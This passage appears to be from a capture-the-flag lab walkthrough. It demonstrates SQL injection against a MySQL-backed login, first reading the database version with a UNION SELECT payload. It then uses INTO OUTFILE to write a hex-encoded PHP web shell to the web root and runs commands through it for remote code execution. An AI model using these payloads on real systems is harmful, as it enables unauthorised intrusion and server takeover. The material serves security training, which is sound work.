 <figure><img src=".gitbook/assets/image (4) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

#### SQL Version

{% code overflow="wrap" %}
```sql
tom" UNION SELECT 1,2,@@version-- -

Username Password<br>tom thecat<br />Username Password<br>2 5.7.34-0ubuntu0.18.04.1<br /
```
{% endcode %}

### SQLI to RCE

The intended path of this room is to upload a php reverse shell via SQLI.

```php
# we will use this php code.
<?php system($_GET['cmd']);?>

# hex encode it.
3c3f7068702073797374656d28245f4745545b27636d64275d293b3f3e

# add "0x" to it
0x3c3f7068702073797374656d28245f4745545b27636d64275d293b3f3e
```

Our SQLI payload

{% code overflow="wrap" %}
```sql
tom" UNION SELECT 1,2,0x3c3f7068702073797374656d28245f4745545b27636d64275d293b3f3e INTO OUTFILE "/var/www/html/shell.php"-- -
```
{% endcode %}

Navigate to [http://10.10.136.119/shell.php?cmd=id](http://10.10.136.119/shell.php?cmd=id)

And we get RCE.

<figure><img src=".gitbook/assets/image (5) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
